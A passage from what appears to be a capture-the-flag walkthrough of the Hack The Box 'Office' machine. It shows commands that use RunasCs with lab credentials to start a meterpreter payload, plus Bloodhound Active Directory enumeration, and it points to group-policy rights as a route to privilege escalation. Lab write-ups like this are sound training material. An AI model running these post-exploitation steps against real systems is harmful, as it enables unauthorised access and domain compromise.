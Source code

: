 And running RunasCs with our malicious file we get a meterpreter shell.

```
runascs.exe tstark playboy69 payload.exe
```

![runascs command](/images/HTB-Office/runascs-cmd.png)

![tstark meterpreter shell](/images/HTB-Office/tstark-meterpreter.png)

The user flag is found in `C:\Users\tstark\Desktop`.

![user flag location](/images/HTB-Office/user-flag-metasploit.png)

Additionally we notice two more users on the system.

![users directory on target system](/images/HTB-Office/Users-list.png)


#### Active Directory Enumeration

Knowing that we are dealing with a Domain Controller let's use Bloodhound to enumerate.

![Bloodhound command](/images/HTB-Office/bloodhound-cmd.png)

```
bloodhound-python -c all -u tstark -p 'playboy69' -d office.htb -dc dc.office.htb -ns 10.10.11.3
```

After it finishes collecting data, we can launch Bloodhound

```
sudo neo4j start

bloodhound --no-sandbox
```

When Bloodhound launches, we use the `Upload Data` button on the right. 

![Upload data in Bloodhound](/images/HTB-Office/upload-data-bloodhound.png)

Then select all the json files created by Bloodhound and the information will be imported.

![Bloodhound json files](/images/HTB-Office/bloodhound-files.png)

We discover that the `HHogan` user has the `CanPSRemote` permission allowing him to initiate remote sessions on the target. In our case `evil-winrm` can be used for that.

![hhogan CanPSRemote](/images/HTB-Office/hhogan-canpsremote.png)

Moreover this user is also a member of the `GPO Managers` group, indicating that the user has permissions to manage Group Policy Objects (GPOs).

![hhogan is a member of the GPO Managers group](/images/HTB-Office/gpo-managers-membership.png)

Running `netstat` in our meterpreter shell we notice `http` running on port `8083`, which we did not discover with nmap. 
